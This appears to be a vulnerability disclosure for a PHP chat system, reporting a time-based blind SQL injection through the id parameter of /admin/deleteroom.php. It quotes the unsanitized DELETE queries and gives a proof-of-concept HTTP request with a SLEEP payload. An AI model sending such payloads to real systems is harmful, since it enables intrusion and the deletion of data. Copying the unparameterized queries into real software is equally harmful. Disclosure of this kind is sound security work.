 # chat system has sql injection in /admin/deleteroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/admin/deleteroom.php



## describe



Because the id parameter is not sanitized or parameterized, an attacker can inject malicious SQL code to manipulate the database query. By leveraging time-based SQL injection techniques, an attacker can induce deliberate delays in the database response using functions like SLEEP(). This can be used to confirm the presence of the vulnerability and potentially extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=4' or sleep(5)#&del=1
```



Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.



**part1**



![image-20250101181527039](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101181527039.png)



![image-20250101181556926](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101181556926.png)





**part2**

![image-20250101181632369](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101181632369.png)



![image-20250101181705735](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101181705735.png)